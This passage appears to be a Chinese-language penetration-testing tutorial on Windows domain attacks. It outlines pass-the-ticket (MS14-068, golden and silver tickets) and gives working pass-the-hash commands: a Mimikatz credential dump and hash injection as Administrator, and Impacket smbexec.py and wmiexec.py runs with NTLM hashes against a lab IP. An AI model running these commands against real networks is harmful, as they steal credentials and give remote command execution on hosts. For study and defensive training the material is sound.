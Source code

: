 **PTT-票据传递**

PTT 攻击的部分就不是简单的 NTLM 认证了，它是利用 Kerberos 协议进行攻击的，三种常见的攻击方法：

MS14-068，Golden ticket，SILVER ticket。简单来说就是将连接合法的票据注入到内存中实现连接。

Golden ticket(黄金票据)，SILVER ticket(白银票据) 属于权限维持技术

MS14-068 基于漏洞，造成的危害是允许域内任何一个普通用户，将自己提升至域管权限。微软给出的补丁是 kb3011780

## [PTH](#toc_pth)

### [**利用 Mimikatz 进行 PTH**](#toc_mimikatzpth)

Mimikatz 内置了哈希传递的功能，需要本地管理员权限。

① 抓取用户的哈希

```bash
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
```

② 利用抓取的域管理员的 NTLM hash 进行哈希传递

```bash
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:Administrator /domain:uf9n1x.com /ntlm:93b95aef15f4d50fab96ffc44a2f326a" exit
```

### [**利用 impacket 进行 PTH**](#toc_impacketpth)

Impacket 项目中具有远程执行功能的几个脚本几乎都可以进行哈希传递攻击，常见的有：

```bash
psexec.py      # 类似 PSEXEC 的功能示例，使用 remcomsvc（https://github.com/kavika13/remcom）smbexec.py     # 与使用 remcomsvc 的 psexec w/o 类似的方法。这里描述了该技术。我们的实现更进一步，                    #实例化本地 smbserver 以接收命令的输出。这在目标计算机没有可写共享可用的情况下很有用。python3 smbexec.py -hashes :3617ad523f47fc96f24c45943affd954 administrator@192.168.1.131 
               #-hashes 指定用户完整的哈希，如果 LM 哈希被废弃，就将其指定为 0 或者空 

atexec.py      # 此示例通过 Task Scheduler 服务在目标计算机上执行命令，并返回已执行命令的输出。

wmiexec.py     # 需要开放 139 和 445 端口，通过 Windows Management Instrumentation 使用的半交互式 shell，它不需要在目标服务器上安装任何服务/代理，以管理员身份运行，非常隐蔽。

python wmiexec.py -hashes 00000000000000000000000000000:3617ad523f47fc96f24c45943affd954 administrator@192.168.1.131 
dcomexec.py    # 类似于 wmiexec.py 的半交互式 shell，但使用不同的 DCOM 端点。目前支持               MMC20.Application，ShellWindows 和 ShellBrowserWindow 对象。
```

用法：

```bash
# 普通用法
python3 xxx.py domain/user:password@ip
# 哈希传递
python3 xxx.py domain/user@ip -hashes :93b95aef15f4d50fab96ffc44a2f326a
```
